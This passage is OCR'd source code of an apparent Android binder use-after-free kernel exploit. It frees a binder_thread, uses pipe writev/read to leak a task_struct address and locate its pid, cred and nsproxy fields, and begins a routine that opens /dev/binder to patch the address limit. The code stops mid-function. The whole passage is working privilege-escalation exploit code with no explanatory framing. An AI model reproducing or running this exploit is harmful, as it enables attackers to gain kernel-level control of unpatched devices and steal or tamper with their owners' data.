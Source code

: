 ```

    printf("[+] Freeing binder_thread\n");
    ioctl(m_binder_fd, BINDER_THREAD_EXIT, NULL);
    ssize_t nBytesWritten =  writev(pipe_fd[1],iovecStack,IOVEC_COUNT);
    if(nBytesWritten == 0x2000){
        printf("[+] write 0x2000 word\n");
    }else{
        printf("[-]writev failed. nBytesWritten: 0x%lx, expected: 0x%x\n", nBytesWritten, PAGE_SIZE * 2);
        exit(1);
    }

    nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));

    if (nBytesRead != PAGE_SIZE) {
        printf("\t[-] read failed. nBytesRead: 0x%lx, expected: 0x%x", nBytesRead, PAGE_SIZE);
        exit(EXIT_FAILURE);
    }

    //
    // Wait for the child process to exit
    //

    wait(nullptr);
    m_task_struct = (struct task_struct *) *((int64_t *) (dataBuffer + TASK_STRUCT_OFFSET_IN_LEAKED_DATA));
    m_pidAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, pid));
    m_credAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, cred));
    m_nsproxyAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, nsproxy));

    printf("[+] Leaked task_struct: %p\n", m_task_struct);
    printf("\t[*] &task_struct->pid: %p\n", m_pidAddress);
    printf("\t[*] &task_struct->cred: %p\n", m_credAddress);
    printf("\t[*] &task_struct->nsproxy: %p\n", m_nsproxyAddress);
    
}


void PatchAddrLimit(){
    int sock_fd[2] = {0};
    ssize_t nBytesWritten = 0;
    struct msghdr message = {nullptr};
    struct iovec iovecStack[IOVEC_COUNT] = {nullptr};

    printf("[+] starting opening binder\n");

    m_binder_fd = open("/dev/binder",O_RDONLY);

    if(m_binder_fd < 0){
        printf("[-] can not open /dev/binder\n");
        exit(EXIT_FAILURE);
    }else{
        printf("[+] open /dev/binder successfully m_binder_fd= %d \n",m_binder_fd);
    }
    
    printf("[+] start opening epollevent\n");

    m_epoll_fd = epoll_create(1);

    if(m_epoll_fd < 0){
        printf("[-] can not create eventpoll\n");
        exit(EXIT_FAILURE);
    }else{
```